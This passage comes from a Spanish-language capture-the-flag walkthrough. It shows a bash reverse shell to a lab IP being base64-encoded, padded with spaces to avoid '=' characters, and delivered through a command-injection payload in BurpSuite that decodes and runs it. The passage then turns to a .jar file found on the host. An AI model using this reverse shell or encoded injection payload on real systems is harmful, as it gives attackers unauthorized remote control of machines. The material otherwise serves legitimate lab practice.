 Otra de las maneras que nos encontramos, es a través de codificar el comando en base64.

En este caso, en un archivo llamado `shell` guardamos el contenido de la típica Reverse Shell, revisamos como sería el código codificado, en este caso nos mostraba carácteres como `==`, lo cual posiblemente nos entraría en conflicto al no tratarse de un carácter común.

Por lo tanto, volvemos a editar el archivo añadiendo espacios en blanco en el comando, al verificar nuveamente el código en base64, verificamos que es una cadena de texto simple.

```bash
❯ cat shell
bash -i >& /dev/tcp/10.10.16.2/443 0>&1
❯ cat shell | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yLzQ0MyAwPiYxCg==
❯ nvim shell
❯ cat shell | base64
YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNi4yLzQ0MyAwPiYxICAK
```

Desde `BurpSuite`, ejecutaremos la siguiente inyección, la cual ejecutará este comando en Base64, lo descodificará y el comando descodificado lo ejecutará a través de una **bash**.

Verificamos que logramos obtener acceso al equipo.

```bash
gzzcoo;{echo,-n,YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNi4yLzQ0MyAwPiYxICAK}|{base64,-d}|bash;#
```

<figure><img src="../../.gitbook/assets/4504_vmware_DPLJPMxWFZ.png" alt=""><figcaption></figcaption></figure>

## Initial Access

### Analyzing a  jar file (JADX-GUI)

Nos encontramos en el equipo como el usuario `app`. Verificamos los usuarios que disponen de `bash`y de los grupos a los cuales formamos parte. Al revisar los archivos que disponemos en el directori actual, nos encontramos con un archivo `.jar`.
